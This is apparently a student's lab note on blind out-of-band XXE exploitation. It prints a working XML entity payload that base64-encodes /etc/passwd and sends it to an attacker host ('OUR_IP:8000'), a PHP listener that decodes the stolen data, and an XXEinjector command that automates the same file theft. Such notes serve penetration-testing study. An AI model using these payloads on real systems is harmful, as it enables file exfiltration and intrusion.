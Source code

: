 ```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

So, we will first write the above PHP code to `index.php`, and then start a PHP server on port `8000`, as follows:

```shell-session
vi index.php # here we write the above PHP code
php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

Now, to initiate our attack,  simply add `<root>&content;</root>`, which is needed to reference our entity and have it send the request to our machine with the file content:

```xml
<root>&content;</root>
```
![[Pasted image 20250513175144.png]]
Finally, we can go back to our terminal, and we will see that we did indeed get the request and its decoded content
## Automated OOB Exfiltration
 we can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector). This tool supports most of the tricks including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.
 ```shell-session
git clone https://github.com/enjoiz/XXEinjector.git
```
Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:
![[Pasted image 20250513181742.png]]
`--host`/`--httpport` flags being our IP and port, the `--file` flag being the file we wrote above, and the `--path` flag being the file we want to read. We will also select the `--oob=http` and `--phpfilter` flags to repeat the OOB attack we did above, as follows:

```shell
	ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

# cat Logs/10.129.201.94/etc/passwd.log 
```
